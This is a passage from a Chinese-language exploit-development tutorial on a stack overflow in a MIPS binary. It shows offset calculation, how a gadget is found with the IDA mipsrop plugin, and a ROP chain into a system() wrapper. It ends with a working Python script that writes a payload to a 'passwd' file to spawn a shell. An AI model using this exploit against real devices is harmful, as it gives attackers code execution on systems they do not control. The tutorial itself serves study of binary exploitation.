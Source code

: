 使用脚本计算偏移为 412，和上面栈帧分析的一样。

[![](https://p1.ssl.qhimg.com/t016c2d6a8d01e95a14.png)](https://p1.ssl.qhimg.com/t016c2d6a8d01e95a14.png)

[![](https://p1.ssl.qhimg.com/t01ee5255112c6ddeb3.png)](https://p1.ssl.qhimg.com/t01ee5255112c6ddeb3.png)

### 寻找可利用的攻击途径

通过对文件的静态分析，不难发现程序中调用了 do_system_0 函数，这个函数会调用 system() 函数来执行第二个参数，因此只需要将要执行的命令传入 do_system_0 函数的第二个参数 $a1 中即可。

[![](https://p3.ssl.qhimg.com/t014ebe85f5465cf39b.png)](https://p3.ssl.qhimg.com/t014ebe85f5465cf39b.png)

### 构造 ROP chain

这里需要用到 IDA 脚本插件 mipsrop.py  
**1、安装 mipsrop.py**  
下载，完了放到 ida 的 plugins 目录就行，重启 IDA。  
【[https://github.com/devttys0/ida/blob/master/plugins/mipsrop/mipsrop.py】](https://github.com/devttys0/ida/blob/master/plugins/mipsrop/mipsrop.py%E3%80%91)  
2、打开你的 mips 程序，点击 search——>mips rop gadgets 。

[![](https://p0.ssl.qhimg.com/t019adf05014ee76296.png)](https://p0.ssl.qhimg.com/t019adf05014ee76296.png)

3、输入 “mipsrop.stackfinder() ” 查找可用的 godget

[![](https://p4.ssl.qhimg.com/t011f0e75e2ed52c72f.png)](https://p4.ssl.qhimg.com/t011f0e75e2ed52c72f.png)

4、双击 0x00403810 可以看到这里，下面红色框中的代码我们可以用来构造 rop chain。  
为什么这段代码可以使用，是因为我们上面分析过，需要给 do_system_0 函数 $a1 传递我们要执行的命令，恰好 0x00403810 此处将 $sp+0x54+var_30 内存中值赋值给 $a1，只需要将要执行的命令放在 $sp+0x54+var_30 处，另外我们要调用 do_system_0 函数，下面 0x00403814 处 将 $sp+0x54+var_s0 的值加载到 $ra 寄存中，后面会执行” jr $ra”, 让程序跳转到 do_system_0 继续执行。

[![](https://p5.ssl.qhimg.com/t01b3fc4f8168b23d89.png)](https://p5.ssl.qhimg.com/t01b3fc4f8168b23d89.png)

6、最终构造的 ROP chain 如下图所示

[![](https://p2.ssl.qhimg.com/t01d885a4658c07cea3.png)](https://p2.ssl.qhimg.com/t01d885a4658c07cea3.png)

### 编写漏洞利用程序

```
import struct

print("[*] prepare shellcode")

cmd = "sh"
cmd += "\00"*(4-(len(cmd) %4))  
shellcode = "A"*0x19C
shellcode += struct.pack(">L",0x00403810)
shellcode += "A"*24
shellcode += cmd
shellcode += "B"*(0x3C - len(cmd))
shellcode += struct.pack(">L", 0x00400680)
shellcode += "BBBB"
print("OK!")

print("[+] create password file")
fw = open('passwd','w')
fw.write(shellcode)
fw.close()
print("ok")
```